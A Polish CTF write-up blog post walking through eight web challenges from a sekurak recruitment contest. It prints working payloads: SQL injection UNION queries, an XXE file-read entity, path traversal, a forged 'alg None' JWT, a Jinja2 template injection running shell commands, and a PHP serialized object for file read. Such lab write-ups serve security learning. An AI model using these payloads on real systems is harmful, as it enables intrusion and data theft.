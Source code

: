 ```yaml
---
title: Zbiorczy CTF - rekrutacja BGK by sekurak
author: k1k9
categories: [web]
tags: [ctf]
---
```


## 1 - Xcross this
Po wejściu na stronę widzimy, że aplikacja pobiera od użytkownika dane, które potem wyświetla przy użyciu biblioteki MathJax ver. 2.7.0.
![alt text](/assets/posts/ctf_bgk/xcross_this1.png)

Dodatkowo jeżeli zajrzymy w kod strony zobaczymy niewidoczny link LogOut oraz skrypt w JS, który w zasadzie nic ciekawego nie robi.

Po kilku próbach exploitacji parametru XSS, przeszedłem do testowania tego tajemniczego linku:
```html
<a href="?LogOut=1" id="LogOut"></a>
```
I po przejściu na link otrzymujemy odpowiedź:
```json
{"error":"VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=\n"}
```
Na pierwszy rzut oka wygląda to jak base64 więc staram się to odszyfrować, okazuje się że flaga jest potrójnie zaszyfrowana basem ;)
```bash
echo "VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=" | base64 -d | base64 -d | base64 -d
```

## 2 - Cross site
Zadanie zostało prawdopodobnie wyłączone (nie udało mi się tam dostać), kod prowadzący do zadania 2:
```html
<!--<li>
    <input type="checkbox" id="task2" class="task-toggle">
    <label for="task2" class="task-title">2 - Cross-site</label>
    <div class="task-description">
        <p><a href="http://139.177.183.71:2000/"
                target-"_blank">Link do zadania</a></p>
    </div>
</li>-->
```

## 3 - Database
Po analizie kodu strony można zauważyć, że interesującym parametrem wydaje się być prametr ```?query=```.

Spróbowałem podać kilka typowych znaków, które mogą wywołąć błąd zapytania i okazuje się, że baza danych jest podatna po podaniu znaku ```'```, otrzymujemy wówczas komunikat: ```SQLITE_ERROR```. A więc przejdźmy do szperania w bazie.

### Sprawdzenie ilości kolumn
Po kilku minutach testowania widzę, że baza jest podatna na SQLi za pomocą ```UNION```. Więc przejdę do sprawdzenia co zawiera tabela z ofertami. W tym celu użyję polecenia:
```sql
test') UNION SELECT NULL,NULL,NULL,NULL--
```
Oczywiście NULL, zwiększamy dopóki strona nie przestanie zwracać błędu, ilość NULLi informuje nas o liczbie kolumn w tabeli.

### Ustalenie nazwy tabeli i kolumn
```sql
test') UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL),NULL,NULL,NULL--
```
otrzymujemy odpowiedź:
```sql
CREATE TABLE offers ( title TEXT, text TEXT, image TEXT, hidden BOOL )
```

### Wyciągnięcie flagi
No to pozostało nam pobranie wszystkich ofert i znalezienie tej jednej ukrytej:
```sql
XD') UNION SELECT title,text,image,hidden FROM offers--
```

## 4 - External Entity
Widzimy, że flaga ukryta jest w pliku ```/tmp/flag``` i musimy użyć do tego XML. Jak sama nazwa zresztą nam sugeruje strona jest podatna na XEE (XML External Entity).
![alt text](/assets/posts/ctf_bgk/external_entity.png)

Zatem spróbujemy dostać się do pliku z flagą wykorzystując XEE:
```xml
<!DOCTYPE k1k9[<!ENTITY example SYSTEM "/tmp/flag"> ]>
<creds>
    <user>&example;</user>
    <pass>admin</pass>
</creds>
```

## 5 - deardir
Po wejściu na strone dostajemy informacje o podaniu ścieżki w parametrze file, a jak zajrzymy w kod strony to widzimy, że flaga znowu jest ukryta w pliku ```/tmp/flag```. Jest to tradycyjny path traversal (```?file=../../../tmp/flag```).

## 6 - I'm brOken'
Widzimy panel logowania a w nim mamy podane dane logowania. Po zalogowaniu się strona ustawia nam ciasteczko session, podobne do tego:
![alt text](/assets/posts/ctf_bgk/im_broken.png)

Jest to ciekawe bo biorąc pod uwagę, że mam dane logowania i ustawiane jest ciasteczko JWT sugeruje to, że tutaj trzeba szukać jakiejś dziury. 

Poszperałem w internecie i znalazłem podatność CVE-2015-9235, która w zasadzie mówi nam, że wystarczy zmienić algorytm na None i usunąć część z sygnaturą.

Tak więc tworze nowe ciasteczko:
```bash
echo -n '{"alg":"None","typ":"JWT"}' | base64 | tr -d '='
echo -n '{"username":"admin","iat":1712129895}' | base64 | tr -d '=' 
```
Obie części łączę kropką i na końcu dodaje kropkę (dalej nic nie podaje bo pomijam sygnaturę). Efekt:
```bash
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzEyMTI5ODk1fQ.
```
Podmieniam ciasteczko na stronie i... nic. 
Okazuje się, że flaga jest ukryta w kodzie aplikacji, gdy wywołamy podatność to strona wygeneruje nam w HTML import pliku app.js i tutaj znajdziemy flagę.

## 7 - Welcome, I, you
Strona mówi nam aby podać swoje imię jako część URI: ```/greeting/<imie>```.
Z nagłówków HTTP wiem, że strona stoi na:
```HTTP
Server: Werkzeug/3.0.1 Python/3.8.18
```
Tak więc spróbujmy coś tutaj wstrzyknąć. XSSa tutaj nie ma ale mamy SSTI (Server Side Template Injection). Czyli wykorzystując Pythona i template engine Jinja2. Szybka weryfikacja ```/greeting/{{config.items()}}``` i działa, tak więc spróbujmy zrobić jakieś RCE:  ```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}``` i mamy:

![alt text](/assets/posts/ctf_bgk/welcome_i_you.png)

Jak zrobimy ```ls -la``` to widzimy plik ```flag.txt```, który okazuje się być tym czego szukamy.

## 8 - Why s0 deserious?
No to tutaj spraw jest dużo prostsza wystarczy, że stworzymy sobie obiekt i wywołamy na nim funkcję serialize:
```php
<?php
class FileRead {
    public $file = '../flag.txt';
}

$object = new FileRead();
echo serialize($object);
?>
```
I przekażemy to jako parametr GET.